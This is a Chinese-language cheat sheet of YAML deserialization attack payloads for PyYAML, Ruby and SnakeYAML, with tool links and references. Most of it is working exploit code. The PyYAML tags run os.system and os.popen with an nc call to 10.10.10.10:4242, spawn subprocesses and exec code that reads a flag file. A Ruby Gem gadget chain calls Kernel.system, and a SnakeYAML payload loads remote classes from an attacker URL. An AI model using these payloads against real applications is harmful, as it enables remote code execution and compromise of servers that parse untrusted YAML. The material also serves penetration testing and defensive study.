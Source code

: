 # YAML反序列化

## 摘要

* [工具](#工具)
* [利用](#利用)
  * [PyYAML](#pyyaml)
  * [ruamel.yaml](#ruamelyaml)
  * [Ruby](#ruby)
  * [SnakeYAML](#snakeyaml)
* [参考资料](#参考资料)

## 工具

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) - 一个用于生成SnakeYAML反序列化负载的小项目
* [mbechler/marshalsec](https://github.com/mbechler/marshalsec)

## 利用

### PyYAML

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

自PyYaml版本6.0起，`load`的默认加载器已切换到SafeLoader，以减轻远程代码执行的风险。
[修复漏洞的PR](https://github.com/yaml/pyyaml/issues/420)

现在易受攻击的汇总是`yaml.unsafe_load`和`yaml.load(input, Loader=yaml.UnsafeLoader)`

```
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

## Ruamel.yaml

## Ruby

```ruby
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

## SnakeYAML

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

## 参考资料

* [Python Yaml Deserialization - hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
* [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
* [PyYAML Documentation](https://pyyaml.org/wiki/PyYAMLDocumentation)
* [Blind Remote Code Execution through YAML Deserialization - 09 JUNE 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
* [[CVE-2019-20477]- 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - @_j0lt](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)
